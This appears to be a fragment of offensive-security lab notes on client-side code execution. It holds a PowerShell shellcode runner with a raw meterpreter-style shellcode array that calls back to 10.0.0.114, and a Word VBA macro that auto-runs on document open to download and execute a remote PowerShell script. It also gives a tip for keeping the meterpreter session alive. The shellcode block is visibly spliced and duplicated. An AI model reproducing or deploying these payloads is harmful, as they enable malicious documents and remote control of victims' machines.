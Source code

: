 ```powershell
[IntPtr]$addr =[Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle =[Kernel32]::CreateThread(0,0,$addr,0,0,0);68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0x89,0xc6,0x53,0x68,0x0,0x32,0xe8,0x84,0x53,0x53,0x53,0x57,0x53,0x56,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x96,0x6a,0xa,0x5f,0x68,0x80,0x33,0x0,0x0,0x89,0xe0,0x6a,0x4,0x50,0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x53,0x53,0x53,0x53,0x56,0x68,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x14,0x68,0x88,0x13,0x0,0x0,0x68,0x44,0xf0,0x35,0xe0,0xff,0xd5,0x4f,0x75,0xcd,0xe8,0x47,0x0,0x0,0x0,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x68,0x0,0x0,0x40,0x0,0x53,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,0x68,0x0,0x20,0x0,0x0,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0xcf,0x8b,0x7,0x1,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0x5f,0xe8,0x6b,0xff,0xff,0xff,0x31,0x30,0x2e,0x30,0x2e,0x30,0x2e,0x31,0x31,0x34,0x0,0xbb,0xe0,0x1d,0x2a,0xa,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5

$size = $buf.Length
[IntPtr]$addr =[Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle =[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

VBA Macro
```vb
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://10.0.0.114/run.ps1') | IEX"
    Shell str, vbHide
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub
```
We executed VBA macro but WORD immediately terminates the shell.Because macro downloads the powershellscript executes and terminates it.

![This is an image](./Client%20Side%20Code%20Execution/porting-shellcode.png)

For mitigate this result we have to include another WIN32 API that is **`WaitForSingleObject`** with adding this api PowerShell script will be download and meterpreter session will continue 

[https://youtu.be/N-7_JaEi1As?list=PLAXVYHMta5d4foizpSMGP9W3vFAo-9kCe&t=4767]: #